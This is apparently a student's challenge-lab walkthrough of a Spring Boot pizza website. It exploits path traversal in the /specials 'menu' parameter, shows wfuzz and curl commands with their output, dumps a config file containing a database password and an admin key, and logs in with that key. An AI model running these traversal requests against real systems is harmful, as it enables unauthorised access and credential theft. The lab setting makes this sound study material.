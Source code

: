
#### Starting Page
![[Pasted image 20250102164329.png]]
going to begin clicking on `Intro, Menu, Specials, Newsletter, Contact`

#### Menu
looks like a potential `database` - maybe `SQL`
![[Pasted image 20250102164442.png]]

#### Specials
potential `SQL`
![[Pasted image 20250102164526.png]]
#### Newsletter
- looks like a place to test, inserted `test@test.local` to see a `POST` request
![[Pasted image 20250102164620.png]]
what the `BURP` looks like
![[Pasted image 20250102164713.png]]

#### Contact
looks like a potential vector as well - lets test the fields a bit
![[Pasted image 20250102164747.png]]
what it looks like in `BURP`
![[Pasted image 20250102164854.png]]
looks like the same return message as the `newsletter`


#### /login
- a way to authenticate maybe way to use later
![[Pasted image 20250102165015.png]]

#### /error
get this error when browsing to `/error`, googling states that it is a `SpringBoot` Error
![[Pasted image 20250102165357.png]]
makes sense that this is running java - could be relevant later
![[Pasted image 20250102165448.png]]

#### /specials
when browsing to `/specials` we get the same error
![[Pasted image 20250102165644.png]]
but when we look in `burpsuite` we are able to see `winter.html` being referenced - possibly for the menu, lets try seeing other files
![[Pasted image 20250102165738.png]]
testing for `LFI` we come up with looking for the `/etc/passwd` equivalent which is the `window/win.ini` file by utilizing this request
```http
GET /specials?menu=../../../../../../../../../../windows/win.ini HTTP/1.1
```
the burp request shows that we have command execution
![[Pasted image 20250102173514.png]]
now because we know that it is a `SPRING BOOT` server lets do research to file potential file paths

got a potential `/config` path
![[Pasted image 20250102173626.png]]
with ome file names
![[Pasted image 20250102173703.png]]
testing
```http
../../../../../../../../../../config/application.properties
../../../../../../../../../../config/application.yml
```
because we dont know how far back from the working directory that the `config` file is we're going to have to `FUZZ` do to them not being found
![[Pasted image 20250102174111.png]]

##### Fuzzing
going to make `paths.txt` and `files.txt`

`paths.txt`
```bash
../
../../
../../../
../../../../
../../../../../
../../../../../../
../../../../../../../
../../../../../../../../../
../../../../../../../../../../
../../../../../../../../../../../
```

`files.txt`
- found config files by googling `Spring Boot server config`
```bash
application.properties
application.yml
config/application.properties
config/application.yml
```

`wfuzz`
- found the path with `../`
```bash
┌──(root💀gobots)-[02Jan2025 22:45:05]-[/home/…/SUT/OSWA/challenge_labs/asio]
└─# wfuzz -w paths.txt -w files.txt --hh 0 http://asio/specials?menu=FUZZFUZ2Z
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://asio/specials?menu=FUZZFUZ2Z
Total requests: 40

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                    
=====================================================================

000000003:   200        18 L     21 W       523 Ch      "../ - config/application.properties"                                                                                                      

Total time: 0
Processed Requests: 40
Filtered Requests: 39
Requests/sec.: 0
```
now browsing to the reques tin `BURP` we are able to grab the `admin.portal.key` - 06c82a1f-892d-48de-8682-67c0c3a096b4
![[Pasted image 20250102174819.png]]
we can also do the same thing using `curl`

```bash
┌──(root💀gobots)-[02Jan2025 22:45:27]-[/home/…/SUT/OSWA/challenge_labs/asio]
└─# curl http://asio/specials?menu=../config/application.properties
# STRIGI'S PIZZA 
server.port=80
server.address=0.0.0.0
spring.web.resources.cache.cachecontrol.max-age=1d
# LOGGING
logging.file.name=logs/strigi.log
logging.level.root=WARN

# DATABASE
spring.datasource.driver-class-name=com.microsoft.sqlserver.jdbc.SQLServerDriver
spring.datasource.url=jdbc:sqlserver://127.0.0.1;databaseName=strigi

spring.datasource.username=sa
spring.datasource.password=MqFuFWUGNrR3P4bJ

spring.datasource.hikari.max-lifetime=30

# ADMIN PORTAL
admin.portal.key=06c82a1f-892d-48de-8682-67c0c3a096b4        
```
now browse to `/login` and attempt to login
![[Pasted image 20250102174957.png]]
profit
![[Pasted image 20250102175018.png]]